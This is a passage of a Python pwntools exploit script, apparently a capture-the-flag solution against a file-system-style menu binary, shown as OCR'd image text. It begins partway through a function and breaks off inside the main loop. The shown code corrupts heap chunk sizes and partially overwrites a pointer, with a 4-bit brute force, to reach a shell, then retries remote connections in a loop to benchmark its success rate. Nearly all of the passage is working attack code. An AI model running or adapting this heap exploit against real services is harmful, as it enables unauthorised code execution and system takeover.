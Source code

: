```python
      echo("6",p64(0)+p64(0x10 + morecore_s|1))
      cd("../")
      rm("./test3/2")
      cd("./test3/")
      echo("6",p64(0)+p64(0x10 + stderralloc_s|1))
      echo("2",p16(LSBs_call_rax))                      # HAVE 4-BIT UNCERTAINITY !!!
      cd("../test6")
      echo("8","\r"*stderralloc_s)
      print("[ ] morecore_s: "+hex(morecore_s))


      # invoke and get a shell!!!
      c.recvuntil("command> ")
      c.sendline("echo")
      c.recvuntil("arg> ")
      c.sendline("\r"*0x50)
      c.recvuntil("?> ")
      c.sendline("Y")
      c.recvuntil("> ")
      c.sendline("9")
      print("[!] Got shell???")

      return True
  except EOFError:
      print("[-] EOFError")
      c.close()
      return False


## main ##############################################

# check success rate by 'python2 ./exploit.py r bench'
# solvable-check by python2 ./exploit.py r

if __name__ == "__main__":
    global c
    
    if len(sys.argv)>1:
      if sys.argv[1][0]=="d":
        cmd = """
          set follow-fork-mode parent
        """
        c = gdb.debug(FILENAME,cmd)

      elif sys.argv[1][0]=="r" or sys.argv[1][0]=="v":
        try_count = 0
        total_try = 0
        total_success = 0
        start_time = time.time()
        init_time = time.time()
        while True:
            lap_time = time.time()
            try_count += 1
            print("**** {} st try ****".format(hex(try_count)))
            if sys.argv[1][0] == "r":
                c = remote(rhp1["host"],rhp1["port"])
            else:
                c = remote(rhp3["host"],rhp3["port"])
            if exploit()==False:
              print("----- {} st try FAILED: {} sec\n".format(hex(try_count),time.time()-lap_time))
              continue
            else:
```